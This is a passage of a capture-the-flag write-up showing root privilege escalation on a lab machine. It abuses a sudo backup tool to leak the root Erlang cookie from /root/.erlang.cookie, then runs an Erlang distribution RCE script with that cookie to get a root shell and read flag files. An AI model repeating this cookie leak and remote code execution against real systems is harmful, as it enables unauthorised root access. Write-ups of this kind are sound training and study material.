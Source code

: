 Port `4369` seems like our target, it seems like the service `erlang`, there is a blog show us how to exploit it to get shell
```
https://medium.com/@_sadshade/couchdb-erlang-and-cookies-rce-on-default-settings-b1e9173a4bcd
```

Firstly, we need to check the cookie of root
```
network_admin@core01:~$ sudo admin_backup backup --conf-file=/root/.erlang.cookie  
[+] Reading configuration file.
[+] Making backup.
Traceback (most recent call last):
  File "/usr/bin/admin_backup", line 45, in <module>
    backup(confFile)
  File "/usr/bin/admin_backup", line 28, in backup
    content = open(line, 'r').read()
FileNotFoundError: [Errno 2] No such file or directory: 'MLTSUUNJKJYAXRTQYKLA'
```

Change the exploited script
```
COOKIE = "MLTSUUNJKJYAXRTQYKLA" # Default Erlang cookie for CouchDB  
```

Then run the exploited script and we can get the shell as root
```
network_admin@core01:~$ python3 erlang-otp-rce.py 
Remote Command Execution via Erlang Distribution Protocol.  

Enter target host:
> 127.0.0.1

More than one node found, choose which one to use:
 1) name network_node3 at port 37769
 2) name network_node1 at port 45183
 3) name network_node2 at port 39851

> 1
Authentication successful
Enter command:

> id
uid=0(root) gid=0(root) groups=0(root)

> hostname -I
10.13.37.13 172.22.1.1 172.22.43.1 dead:beef::250:56ff:feb9:f81b  

> cat /root/flag.txt
SYNACKTIV{E@t_d4t_C00kie}
```

We can find the last flag from `/`, but even root still could not check it
```
> ls -l /flag.txt
-rw-r----- 1 root root 33 Mar  5  2021 /flag.txt  

> cat /flag.txt
cat: /flag.txt: Permission denied

```
